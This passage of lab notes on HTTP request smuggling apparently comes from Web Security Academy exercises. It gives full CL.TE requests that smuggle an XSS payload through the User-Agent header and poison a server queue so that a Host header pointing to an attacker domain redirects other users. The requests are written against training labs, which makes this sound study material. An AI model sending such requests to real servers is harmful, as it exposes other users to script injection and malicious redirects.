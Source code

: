 - No user interaction with victims
- It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers

Identified an XSS in the `User-Agent`:

```http
GET /post?postId=9 HTTP/1.1
Host: 0a7d0039039ae2008000c69c008b00a5.web-security-academy.net
Cookie: session=drGdWK3wPKR02cvmDA56fah3sxM6k8pp
User-Agent: foo bar
Connection: close


HTTP/1.1 200 OK
...
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
<input required type="hidden" name="csrf" value="WSM6wDKdBfoen3ZYcSd4YZE4v8V9bVQ8">
<input required type="hidden" name="userAgent" value="foo bar">
<input required type="hidden" name="postId" value="9">
<label>
```

Exploited a request smuggling (CL.TE) to poison the server queue with a malicious request:

```http
POST / HTTP/1.1
Host: 0a7d0039039ae2008000c69c008b00a5.web-security-academy.net
Cookie: session=drGdWK3wPKR02cvmDA56fah3sxM6k8pp
Content-Length: 208
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
Host: 0a7d0039039ae2008000c69c008b00a5.web-security-academy.net
Cookie: session=drGdWK3wPKR02cvmDA56fah3sxM6k8pp
User-Agent: "><img src onerror=alert(1)>
Connection: close
```

# Using request smuggling to turn an on-site redirect into an open redirect

Many applications perform on-site redirects from one URL to another and place the hostname from the request's `Host` header into the redirect URL. This [Host Header injection](Host%20Header%20attacks.md) can be exploited in conjunction with a [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) attack to redirect other users to an external domain and obtain [Open Redirection](Open%20Redirection.md).

Poisoned the server queue:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
